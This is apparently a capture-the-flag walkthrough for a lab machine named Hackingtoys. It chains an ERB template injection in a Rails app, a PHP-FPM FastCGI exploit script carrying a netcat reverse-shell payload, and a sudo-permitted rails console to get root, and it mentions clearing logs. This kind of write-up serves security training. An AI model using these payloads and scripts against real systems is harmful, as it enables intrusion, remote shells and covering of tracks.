


# Host Hackingtoys (192.168.1.60)

## Open Ports:
```bash
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 e7:ce:f2:f6:5d:a7:47:5a:16:2f:90:07:07:33:4e:a9 (ECDSA)
|_  256 09:db:b7:e8:ee:d4:52:b8:49:c3:cc:29:a5:6e:07:35 (ED25519)
3000/tcp open  ssl/ppp?
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: organizationName=Internet Widgits Pty Ltd/stateOrProvinceName=Some-State/countryName=FR
| Not valid before: 2024-05-20T15:36:20
|_Not valid after:  2038-01-27T15:36:20
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.0 400 Bad Request
|     Content-Length: 930
|     Puma caught this error: Invalid HTTP format, parsing fails. Are you trying to open an SSL connection to a non-SSL Puma? (Puma::HttpParserError)
|     /usr/local/rvm/gems/ruby-3.1.0/gems/puma-6.4.2/lib/puma/client.rb:268:in `execute'
|     /usr/local/rvm/gems/ruby-3.1.0/gems/puma-6.4.2/lib/puma/client.rb:268:in `try_to_finish'
|     /usr/local/rvm/gems/ruby-3.1.0/gems/puma-6.4.2/lib/puma/server.rb:298:in `reactor_wakeup'
|     /usr/local/rvm/gems/ruby-3.1.0/gems/puma-6.4.2/lib/puma/server.rb:248:in `block in run'
|     /usr/local/rvm/gems/ruby-3.1.0/gems/puma-6.4.2/lib/puma/reactor.rb:119:in `wakeup!'
|     /usr/local/rvm/gems/ruby-3.1.0/gems/puma-6.4.2/lib/puma/reactor.rb:76:in `block in select_loop'
|     /usr/local/rvm/gems/ruby-3.1.0/gems/puma-6.4.2/lib/puma/reactor.rb:76:in `select'
|     /usr/local/rvm/gems/ruby-3.1.0/gems/puma-6.4.2/lib/puma/reactor.rb:76:in `select_loop'
|     /usr/loc
|   GetRequest: 
|     HTTP/1.0 403 Forbidden
|     content-type: text/html; charset=UTF-8
|     Content-Length: 5702
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="utf-8" />
|     <meta name="viewport" content="width=device-width, initial-scale=1">
|     <meta name="turbo-visit-control" content="reload">
|     <title>Action Controller: Exception caught</title>
|     <style>
|     body {
|     background-color: #FAFAFA;
|     color: #333;
|     color-scheme: light dark;
|     supported-color-schemes: light dark;
|     margin: 0px;
|     body, p, ol, ul, td {
|     font-family: helvetica, verdana, arial, sans-serif;
|     font-size: 13px;
|     line-height: 18px;
|     font-size: 11px;
|     white-space: pre-wrap;
|     pre.box {
|     border: 1px solid #EEE;
|     padding: 10px;
|     margin: 0px;
|     width: 958px;
|     header {
|     color: #F0F0F0;
|     background: #C00;
|_    padding:
```

# Port 3000 HTTPS

We can start taking a look at port 3000.

We have a website for hacker tools, the website offers a list of hacking tools.
By clicking the tool, we got redirected to `/products/show/<id_number>`

If we insert an invalid path we get the Ruby error page that leaks all the other routes


Now that we know that it is a Ruby application we can test some common web attack vectors.

From the item research section we can see that we are making a get request to `https://192.168.1.60:3000/search?query=a&message=Product+does+not+exist`

## SSTI

Initially i tested the query paramether for SQL injection, but got no luck, after that i noticed that the message paramether is reflected to the page, so i tried some Server Side Template Injection.

If we send the following request:
```bash
curl 'https://192.168.1.60:3000/search?query=ab&message=%3C%25=%207*7%20%25%3E'
```

We can see the output in our browser by saving the request:



Now that we know the server is vulnerable to SSTI, we can try to automate the exploit and get a shell.
To do that i'll use [SSTImap](https://github.com/vladko312/SSTImap):
```bash
python3 sstimap.py -u 'https://192.168.1.60:3000/search?query=ab&message=*'
```
We got lucky:
```bash
[+] Erb plugin has confirmed injection with tag '*'
[+] SSTImap identified the following injection point:

  Query parameter: message
  Engine: Erb
  Injection: *
  Context: text
  OS: x86_64-linux
  Technique: render
  Capabilities:

    Shell command execution: ok
    Bind and reverse shell: ok
    File write: ok
    File read: ok
    Code evaluation: ok, ruby code

[+] Rerun SSTImap providing one of the following options:
    --interactive                Run SSTImap in interactive mode to switch between exploitation modes without losing progress.
    --os-shell                   Prompt for an interactive operating system shell.
    --os-cmd                     Execute an operating system command.
    --eval-shell                 Prompt for an interactive shell on the template engine base language.
    --eval-cmd                   Evaluate code in the template engine base language.
    --tpl-shell                  Prompt for an interactive shell on the template engine.
    --tpl-cmd                    Inject code in the template engine.
    --bind-shell PORT            Connect to a shell bind to a target port.
    --reverse-shell HOST PORT    Send a shell back to the attacker's port.
    --upload LOCAL REMOTE        Upload files to the server.
    --download REMOTE LOCAL      Download remote files.
```

# User lidia

I rerun the tool with the `--os-shell option`:
```bash
[+] Erb plugin has confirmed injection with tag '*'
[+] SSTImap identified the following injection point:

  Query parameter: message
  Engine: Erb
  Injection: *
  Context: text
  OS: x86_64-linux
  Technique: render
  Capabilities:

    Shell command execution: ok
    Bind and reverse shell: ok
    File write: ok
    File read: ok
    Code evaluation: ok, ruby code

[+] Run commands on the operating system.
x86_64-linux $ whoami
lidia
x86_64-linux $ id
uid=1000(lidia) gid=1000(lidia) groups=1000(lidia),100(users),1002(rvm)
x86_64-linux $ ls -la
total 108
drwxr-xr-x 16 lidia lidia 4096 May 20 15:14 .
drwxr-xr-x  3 lidia lidia 4096 May 20 13:54 ..
drwxr-xr-x 11 lidia lidia 4096 May 20 15:14 app
drwxr-xr-x  2 lidia lidia 4096 May 20 15:14 bin
drwxr-xr-x  2 lidia lidia 4096 May 20 15:14 certs
drwxr-xr-x  5 lidia lidia 4096 May 20 15:14 config
-rw-r--r--  1 lidia lidia  160 May 20 15:14 config.ru
drwxr-xr-x  3 lidia lidia 4096 May 20 15:14 db
-rw-r--r--  1 lidia lidia 1870 May 20 15:14 Dockerfile
-rw-r--r--  1 lidia lidia  703 May 20 15:14 .dockerignore
-rw-r--r--  1 lidia lidia 2235 May 20 15:14 Gemfile
-rw-r--r--  1 lidia lidia 6613 May 20 15:14 Gemfile.lock
drwxr-xr-x  7 lidia lidia 4096 Sep  4 18:02 .git
-rw-r--r--  1 lidia lidia  348 May 20 15:14 .gitattributes
-rw-r--r--  1 lidia lidia  815 May 20 15:14 .gitignore
drwxr-xr-x  4 lidia lidia 4096 May 20 15:14 lib
drwxr-xr-x  2 lidia lidia 4096 May 20 15:14 log
drwxr-xr-x  2 lidia lidia 4096 May 20 15:14 models
drwxr-xr-x  3 lidia lidia 4096 May 20 15:14 public
-rw-r--r--  1 lidia lidia  227 May 20 15:14 Rakefile
-rw-r--r--  1 lidia lidia  374 May 20 15:14 README.md
-rw-r--r--  1 lidia lidia   11 May 20 15:14 .ruby-version
drwxr-xr-x  2 lidia lidia 4096 Sep  4 19:53 storage
drwxr-xr-x 10 lidia lidia 4096 May 20 15:14 test
drwxr-xr-x  6 lidia lidia 4096 May 20 15:14 tmp
drwxr-xr-x  3 lidia lidia 4096 May 20 15:14 vendor
x86_64-linux $
```

# User dodi

Once we are inside the box, we can try to do some manual enumeration.

I didn't find much inside folders so i continued the enumeration with the network.

I wanted to know what ports the machine is not exposing to the outside:
```bash
ss -tulpn

# Output:

Netid State  Recv-Q Send-Q Local Address:Port Peer Address:PortProcess                       
udp   UNCONN 0      0            0.0.0.0:68        0.0.0.0:*                                 
tcp   LISTEN 0      4096       127.0.0.1:9000      0.0.0.0:*                                 
tcp   LISTEN 0      128          0.0.0.0:22        0.0.0.0:*                                 
tcp   LISTEN 0      511        127.0.0.1:80        0.0.0.0:*                                 
tcp   LISTEN 0      1024         0.0.0.0:3000      0.0.0.0:*    users:(("ruby",pid=523,fd=7))
tcp   LISTEN 0      128             [::]:22           [::]:*
```
We can see the pid and port of our process, but the most interesting part here is the service running on port 9000 only on localhost.

Since we couldn't access it before, i tried connecting to the server using _netcat_ inside the victim machine:
```bash
nc 127.0.0.1 9000 -v
```
The service give us a connection feedback since the 3 way handshake is completed but we do not get data nor banner back.

## FCGI RCE

Since it doesn't seems right, i tried to google for services that run on port 9000 and eventually i found [this pentest blog](https://exploit-notes.hdks.org/exploit/network/fastcgi-pentesting/).

The service seems to be a fast-cgi server.

In ordet to exclude false positives, i'll run the following command:
```bash
ps -faux | grep php

# Output:

root         558  0.0  0.2 204508 22184 ?        Ss   16:01   0:00 php-fpm: master process (/etc/php/8.2/fpm/php-fpm.conf)
dodi         630  0.0  0.0 204996  9392 ?        S    16:01   0:00  \_ php-fpm: pool www
dodi         631  0.0  0.0 204996  9392 ?        S    16:01   0:00  \_ php-fpm: pool www
```

We can see that indeed there is a PHP FastCGI server running as dodi user. So i'll test if we can get RCE

To test this hypothesis i'll try to reproduce the exploit mentioned inside the blog article.

- Firts step: I need to create a php file inside  `/dev/shm/` folder:
```bash
touch /dev/shm/index.php
```

- Second step: Create the bash exploit for automation with the following content (change ip and port):
```bash
!#/bin/bash

#exploit.sh file

PAYLOAD="<?php echo '<!--'; system('rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.1.9 4444 >/tmp/f'); echo '-->';"
FILENAMES="/dev/shm/index.php" # Exisiting file path

HOST=$1
B64=$(echo "$PAYLOAD"|base64)

for FN in $FILENAMES; do
    OUTPUT=$(mktemp)
    env -i \
      PHP_VALUE="allow_url_include=1"$'\n'"allow_url_fopen=1"$'\n'"auto_prepend_file='data://text/plain\;base64,$B64'" \
      SCRIPT_FILENAME=$FN SCRIPT_NAME=$FN REQUEST_METHOD=POST \
      cgi-fcgi -bind -connect $HOST:9000 &> $OUTPUT

    cat $OUTPUT
done
```

- Third step: Run the exploit and pray:
```bash
chmod +x  ./exploit.sh
./exploit.sh
```
 
Before running the exploit i started a listener on my local machine:
```bash
pwncat-cs -lp 443
```

And got the connection!!


Now that we are dodi, we can try to do some manual enumeration to privesc to root user.

The first command i usually run is `sudo -l`, this time i got lucky:
```bash
Matching Defaults entries for dodi on hacktoys:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User dodi may run the following commands on hacktoys:
    (ALL : ALL) NOPASSWD: /usr/local/bin/rvm_rails.sh
```

In fact, the dodi user can run [rails](https://rubyonrails.org/) as root without using the password.

# User root

Since rails is a Ruby framework, we can also run system commands.

To understand how, i simply run the binary and checked for an help section.
```bash
sudo /usr/local/bin/rvm_rails.sh
```
From the output i saw something very interesting:
```bash
Usage:
  rails COMMAND [options]

You must specify a command:

  new          Create a new Rails application. "rails new my_app" creates a
               new application called MyApp in "./my_app"
  plugin new   Create a new Rails railtie or engine

All commands can be run with -h (or --help) for more information.

Inside a Rails application directory, some common commands are:

  console      Start the Rails console
  server       Start the Rails server
  test         Run tests except system tests
```
We can start a Ruby Rails console as root!

## Rails RCE

But before that, we need to create a rails project.

```bash
sudo /usr/local/bin/rvm_rails.sh new rce
```

Now that we have the project, we can start the console:
```bash
sudo /usr/local/bin/rvm_rails.sh console
```

Inside the console we can run ruby commands with backticks and check if we are root:



We can now set bash as SUID or get a revshell.

Once we are root, we can set our favourite persistence mechanism and clear logs and tracks.


